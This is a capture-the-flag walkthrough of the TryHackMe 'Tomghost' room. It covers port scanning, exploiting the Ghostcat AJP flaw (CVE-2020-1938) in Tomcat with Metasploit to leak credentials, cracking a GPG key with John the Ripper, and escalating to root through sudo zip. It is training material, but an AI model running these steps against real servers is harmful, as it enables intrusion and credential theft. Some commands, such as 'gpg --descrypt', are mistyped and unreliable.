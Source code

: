# THM - TOMGHOST

## Introduction
Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

We have to get two flags : user.txt and root.txt

## Initial Steps
Opening the page in the web browser doesnt work so it doesnt seem like port 80 is open. I use rustscan to do an initial port scan.
The results are as follows: 
```
[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.159.33:22
Open 10.10.159.33:53
Open 10.10.159.33:8009
Open 10.10.159.33:8080
[~] Starting Script(s)
[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-27 23:49 UTC
Initiating Ping Scan at 23:49
Scanning 10.10.159.33 [2 ports]
Completed Ping Scan at 23:49, 0.28s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 23:49
Completed Parallel DNS resolution of 1 host. at 23:49, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 23:49
Scanning 10.10.159.33 [4 ports]
Discovered open port 22/tcp on 10.10.159.33
Discovered open port 8080/tcp on 10.10.159.33
Discovered open port 53/tcp on 10.10.159.33
Discovered open port 8009/tcp on 10.10.159.33
Completed Connect Scan at 23:49, 0.28s elapsed (4 total ports)
Nmap scan report for 10.10.159.33
Host is up, received conn-refused (0.28s latency).
Scanned at 2023-12-27 23:49:35 UTC for 0s

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
53/tcp   open  domain     syn-ack
8009/tcp open  ajp13      syn-ack
8080/tcp open  http-proxy syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
```
We verify that the Tomcat version is 9.0.30

I also run gobuster to get an idea of what directories are available
We find the following
```
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```
No new information here.

## Checking CVEs
If we look for any CVEs for Tomcat version 9.0.30 we find this cve 
https://www.cvedetails.com/cve/CVE-2020-1938/.

We see there is a metasploit module for this cve so lets try that

```
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 10.10.159.33
RHOSTS => 10.10.159.33
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS    10.10.159.33      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-
                                         Metasploit
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit

```

We get a response back with the /WEB-INF/web.xml which contains the following
```
 <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>
```
This looks like a login so lets try it.


## Logged in.
We are logged in an immediately we see there is a credential.pgp and a tryhackme.asc
If we look in the /home we see there is the current user and merlin user. Inside the merlin user there is the user.txt file and luckily we have read access to the file. Its likely that the flag is inside the root folder. Even if it isnt in any case we should try to escalate privileges.

## Privilege Escalation
The two files we have are probably our key in so lets try with those first. These files are an encrypted ssh private key so we will have to crack them using something like JohnTheRipper.

Using the following commands
```
gpg2john tryhackme.asc > hash
john --format=gpg --wordlist=$SECLIST/Passwords/Leaked-Databases/rockyou.txt hash
```
We get this result
```
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2023-12-27 19:42) 14.28g/s 15314p/s 15314c/s 15314C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

alexandru appears to be the password

We import the key into gpg and then decrypted the credentials.pgp file

gpg --import
gpg --descrypt

After decrypting we get this
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

We can use this to login to merlin
Using sudo -l we can see that we can use zip as root
```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Lets zip the root folder and unzip it in the /home/merlin folder

Once this is done we can read the root folder and all of its contents which includes the root.txt file
